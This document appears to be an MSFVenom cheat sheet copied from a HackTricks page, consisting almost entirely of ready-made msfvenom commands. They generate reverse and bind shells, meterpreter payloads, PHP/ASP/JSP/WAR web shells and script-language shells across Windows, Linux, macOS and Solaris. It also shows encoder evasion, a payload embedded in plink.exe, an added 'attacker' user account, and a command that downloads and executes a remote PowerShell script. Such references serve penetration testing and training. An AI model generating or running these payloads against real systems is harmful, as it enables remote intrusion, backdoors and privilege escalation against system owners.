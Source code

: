 _source: (https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom#listing)_

**MSFVenom - CheatSheet**
<pre>msfvenom -p (PAYLOAD) -e (ENCODER) -f (FORMAT) -i (ENCODE COUNT) LHOST=(IP) </pre>
One can also use the -a to specify the architecture or the --platform

**Listing**
<pre>msfvenom -l #Payloads</pre>
<pre>msfvenom -l encoders #Encoders </pre>

**Common params when creating a shellcode**
<pre> -b "\x00\x0a\x0d" </pre>
<pre> -f c </pre>
<pre> -e x86/shikata_ga_nai -i 5 </pre>
<pre>EXITFUNC=thread </pre>
<pre> PrependSetuid=True #Use this to create a shellcode that will execute something with SUID </pre>


**Windows**
---
**Reverse Shell**
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe </pre>
**Bind Shell**
<pre>msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe </pre>
**Create User**
<pre>msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe </pre>
**CMD Shell**
<pre> msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe </pre>
**Execute Command**
<pre> msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe </pre>
<pre>msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe </pre>
**Encoder**
<pre>msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe </pre>
**Embedded inside executable**
<pre>msfvenom -p windows/shell_reverse_tcp LHOST=(IP) LPORT=(PORT) -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe </pre>

**Linux Payloads**
---
**Reverse Shell**
<pre>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf </pre>
<pre>msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf </pre>
**Bind Shell**
<pre>msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf </pre>
**SunOS (Solaris)**
<pre>msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf </pre>

**MAC Payloads**
---
**Reverse Shell**
<pre>msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho </pre>
**Bind Shell**
<pre>msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho </pre>

**Web Based Payloads**
---
**PHP Reverse Shell**
<pre>msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php </pre>
<pre>cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php </pre>

**ASP/x Reverse Shell**
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp</pre>
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx </pre>

**JSP Reverse Shell**
<pre>msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp </pre>
**WAR Reverse Shell**
<pre>msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war </pre>
**NodeJS Reverse Shell**
<pre>msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) </pre>
**Script Language payloads**
---
**Perl**
<pre>msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl </pre>
**Python**
<pre>msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py </pre>
**Bash**
<pre>msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh </pre>
